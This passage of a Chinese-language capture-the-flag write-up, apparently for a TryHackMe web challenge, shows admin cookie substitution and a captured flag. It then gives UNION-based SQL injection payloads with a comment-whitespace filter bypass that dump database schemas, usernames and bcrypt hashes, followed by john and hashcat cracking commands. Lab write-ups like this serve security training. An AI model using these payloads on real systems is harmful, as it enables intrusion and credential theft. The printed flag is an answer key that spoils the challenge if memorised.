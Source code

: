 - 使用管理員帳號登入
    - 把自己的餅乾換成管理員的
        - ![](https://i.imgur.com/ISy8k0G.png)
    - 首頁
        - ![](https://i.imgur.com/1XSphjU.png)
    - 取得 Flag1
        - `THM{c37a63895910e478f28669b048c348d5}`

## SQLi
- 發現看使用者這邊可以用 SQL injection
    - ![](https://i.imgur.com/17Bjunz.png)
- 點進去之後，透過 F12 複製成 curl 再轉 python 的 request
    - ![](https://i.imgur.com/Z9wlSre.png)
    - 測了一陣子發現空白要用 `/**/` 來繞
        - `"-1/**/UNION/**/SELECT/**/1,2,3,4/**/--")`

- 爆 db
    - `p = "-1 UNION SELECT 1,group_concat(schema_name),3,4 FROM information_schema.schemata  --"`
    - ![](https://i.imgur.com/bSvyH76.png)
    - 兩個 DB
        - `information_schema`
        - `marketplace`
            - 先關注這個
- 爆 table
    - `p = "-1 UNION SELECT 1,group_concat(table_name),3,4 FROM information_schema.tables where table_schema='marketplace'  --"`
    - ![](https://i.imgur.com/L8MCiSc.png)
    - 發現有三張 table
        - `items`
        - `messages`
        - `users`
- 爆 column
    - `p = "-1 UNION SELECT 1,group_concat(column_name),3,4 FROM information_schema.columns where table_schema='marketplace'  --"`
    - ![](https://i.imgur.com/A3Y7nW8.png)
    - `id,author,title,description,image,id,user_from,user_to,message_content,is_read,id,username,password,isAdministrator`
        - 應該需要觀察的是 `username` 跟 `password`
- 選帳號
    - `p = "-1 UNION SELECT 1,group_concat(username),3,4 FROM marketplace.users  --"`
    - `jake,meow,michael,system `
    - ![](https://i.imgur.com/b6XfCbO.png)
- 選密碼
    - `p = "-1 UNION SELECT 1,group_concat(password),3,4 FROM marketplace.users  --"`
    - ![](https://i.imgur.com/WfBQ3kh.png)
    - 看起來有過 hash
    - 把他大致整理一下
    ``` 
    $2b$10$83pRYaR/d4ZWJVEex.lxu.Xs1a/TNDBWIUmB4z.R0DT0MSGIGzsgW,
    $2b$10$yaYKN53QQ6ZvPzHGAlmqiOwGt8DXLAO5u2844yUlvu2EXwQDGf/1q
    $2b$10$/DkSlJB4L85SCNhS.IxcfeNpEBn.VkyLvQ2Tk9p2SDsiVcCRb4ukG
    $2b$10$FStzuEGFk9JpOnigl2gbEuE2rRp27psGUS0UuztTtxbZPFW/Wtn4m
    ```
    - 查詢發現是 bcrypt
        - https://bcrypt-generator.com/
        - 而且可以測試其中一個是我自己註冊的 `meow`
        - ![](https://i.imgur.com/jhHGnDb.png)
- 爆密碼
    - `john password_hash.txt --wordlist=/opt/rockyou.txt`
    - `hashcat -m 3200 password_hash.txt rockyou.txt`
        - ![](https://i.imgur.com/y5YqjAf.png)
        - ![](https://i.imgur.com/ywGcdes.png)
            - 中研院超級電腦的兩張 V100 吃滿要跑 3 小時，不太合理
